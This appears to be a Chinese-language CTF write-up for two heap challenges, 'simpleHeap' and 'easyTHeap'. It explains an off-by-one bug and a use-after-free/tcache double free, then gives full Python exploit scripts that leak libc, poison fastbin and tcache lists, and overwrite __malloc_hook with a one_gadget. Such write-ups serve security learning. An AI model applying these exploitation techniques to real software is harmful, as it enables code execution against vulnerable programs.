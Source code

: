 ### simpleHeap

编辑时存在 off by one，可以修改下一个 chunk 的大小后令其进入 unsorted bin 泄露 libc。然后修改 `malloc_hook` 为 `one_gadget`，注意需要通过 `realloc` 调整 `rsp` 来满足 `one_gadget` 条件。

```python
add(0x18) # 0
add(0x68) # 1
add(0x68) # 2
add(0x18) # 3

edit(0,'a'*0x18+'\xe1')
free(1)
add(0x68) # 1
show(2)
base = uu64(r(6))-88-libc.sym['__malloc_hook']-0x10
leak('base',base)
malloc_hook = base+libc.sym['__malloc_hook']

add(0x60) # 4 <-> 2
free(3)
free(2)
edit(4,p64(malloc_hook-0x23)+'\n')
add(0x60)
add(0x60,flat('a'*11,base+0x4526a,base+libc.sym['realloc']+13))
sla(':',str(_add))
sla('?',str(0x18))
```

### easyTHeap

`free` 时指针未置 NULL。先利用 tcache double free 泄露堆地址，随后 tcache 投毒拿到 `tcache_perthread_struct`，修改 `count` 令 tcache 全被填满，再次 `free` 时就会进入 unsorted bin 泄露 libc。接下来依然是覆盖 `malloc_hook` 为 `one_gadget` 以及通过 `realloc` 调整 `rsp`，不过由于环境是 2.27，`one_gadget`、偏移量等等都会会有所不同，unsorted bin 泄露的地址也变成了 `main_arena+96` 而非 `+88`。


```python
add(0x80) # 0
add(0x80) # 1
free(0)
free(0)
show(0)
heap = uu64(r(6))-0x260
leak('heap',heap)

tps = heap+0x10
add(0x80) # 2 <-> 0
edit(2,p64(tps))

add(0x80) # 3 <-> 1
add(0x80) # 4 <-> tps
edit(4,'\x07'*8+'\x00'*0x70+p64(tps+0x78))
free(0)
show(0)
base = uu64(r(6))-0x60-libc.sym['__malloc_hook']-0x10
leak('base',base)
one = base+0x10a38c
malloc_hook = base+libc.sym['__malloc_hook']

edit(4,'\x07'*8+'\x00'*0x70+p64(malloc_hook-0x8))
add(0x80) # 5
edit(5,flat(one,base+libc.sym['realloc']+4))
sla(':',str(_add))
sla('?',str(0x10))
```
